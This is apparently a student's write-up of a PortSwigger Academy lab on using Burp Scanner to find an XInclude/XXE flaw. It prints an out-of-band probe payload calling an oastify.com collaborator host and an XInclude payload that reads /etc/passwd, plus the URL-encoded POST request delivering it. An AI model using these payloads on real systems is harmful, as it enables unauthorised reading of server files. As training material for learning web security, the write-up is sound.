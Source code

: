 
# 23 - Discovering vulnerabilities quickly with targeted scanning

This lab contains a vulnerability that enables you to read arbitrary files from the server. To solve the lab, retrieve the contents of /etc/passwd within 10 minutes.

Due to the tight time limit, we recommend using Burp Scanner to help you. You can obviously scan the entire site to identify the vulnerability, but this might not leave you enough time to solve the lab. Instead, use your intuition to identify endpoints that are likely to be vulnerable, then try running a targeted scan on a specific request. Once Burp Scanner has identified an attack vector, you can use your own expertise to find a way to exploit it.

Hint: If you get stuck, try looking up our Academy topic on the identified vulnerability class.


---------------------------------------------

References: 

- https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing

- https://portswigger.net/web-security/xxe



![img](images/23%20-%20Discovering%20vulnerabilities%20quickly%20with%20targeted%20scanning/1.png)

---------------------------------------------

Generated link: 



![img](images/23%20-%20Discovering%20vulnerabilities%20quickly%20with%20targeted%20scanning/2.png)

We know this payload works:

```
<njd xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://itfjkky610emxm8w1amzh40dm4sygp4qsif83x.oastify.com/foo"/></njd>
```

So we will try:

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

The POST request will be:

```
POST /product/stock HTTP/2
...

productId=%3c%66%6f%6f%20%78%6d%6c%6e%73%3a%78%69%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%31%2f%58%49%6e%63%6c%75%64%65%22%3e%3c%78%69%3a%69%6e%63%6c%75%64%65%20%70%61%72%73%65%3d%22%74%65%78%74%22%20%68%72%65%66%3d%22%66%69%6c%65%3a%2f%2f%2f%65%74%63%2f%70%61%73%73%77%64%22%2f%3e%3c%2f%66%6f%6f%3e&storeId=1
```



![img](images/23%20-%20Discovering%20vulnerabilities%20quickly%20with%20targeted%20scanning/3.png)



![img](images/23%20-%20Discovering%20vulnerabilities%20quickly%20with%20targeted%20scanning/4.png)